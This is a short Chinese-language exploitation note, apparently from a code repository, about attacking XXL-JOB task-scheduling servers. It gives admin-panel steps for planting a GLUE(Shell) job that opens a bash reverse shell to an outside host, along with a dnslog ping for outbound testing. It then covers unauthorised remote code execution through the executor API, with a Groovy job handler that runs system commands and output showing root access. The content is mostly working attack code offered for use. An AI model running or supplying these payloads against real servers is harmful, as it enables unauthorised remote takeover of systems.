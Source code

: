# XXL-JOB-ADMIN 反弹shell
任务管理→新增，配置如下，运行模式一定要选择GLUE(Shell)→ Cron设置成`0 0 0 * * ?` → GLUE IDE设置如下反弹代码或出网测试
```
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/x.x.x.x/1231 <&1'

或
#!/bin/bash
ping xxx.dnslog.cn
```
# xxl-job 执行器 RESTful API 未授权访问 RCE

### 利用 执行日志Console 可获取命令执行成功结果：

Example:

```/joblog/logDetailPage?id=xxxx```

#### 查看jdk环境变量
```
String var3 = System.getProperties().toString();
System.out.println(var3);
```

#### 命令执行


`/jobcode?jobId=x`

```

import com.xxl.job.core.log.XxlJobLogger;
import com.xxl.job.core.biz.model.ReturnT;
import com.xxl.job.core.handler.IJobHandler;

public class DemoGlueJobHandler extends IJobHandler {

    @Override
    public ReturnT<String> execute(String param) throws Exception {
        XxlJobLogger.log("XXL-JOB, Hello World.");
        String cmd = "whoami&&id";
        String var2 = new java.util.Scanner(new java.lang.ProcessBuilder(cmd).start().getInputStream()).useDelimiter("\\A").next();
        System.out.println(var2);
        return var2;
    }


}
```

```
----------- JobThread Exception:org.codehaus.groovy.runtime.typehandling.GroovyCastException: Cannot cast object 'uid=0(root) gid=0(root) groups=0(root)
' with class 'java.lang.String' to class 'com.xxl.job.core.biz.model.ReturnT'
	at org.codehaus.groovy.runtime.typehandling.DefaultTypeTransformation.continueCastOnSAM(DefaultTypeTransformation.java:415)
	at org.codehaus.groovy.runtime.typehandling.DefaultTypeTransformation.continueCastOnNumber(DefaultTypeTransformation.java:329)
	at org.codehaus.groovy.runtime.typehandling.DefaultTypeTransformation.castToType(DefaultTypeTransformation.java:243)
	at org.codehaus.groovy.runtime.ScriptBytecodeAdapter.castToType(ScriptBytecodeAdapter.java:615)
	at DemoGlueJobHandler.execute(script16251277854351238137335.groovy:13)
	at com.xxl.job.core.handler.impl.GlueJobHandler.execute(GlueJobHandler.java:26)
	at com.xxl.job.core.thread.JobThread.run(JobThread.java:152)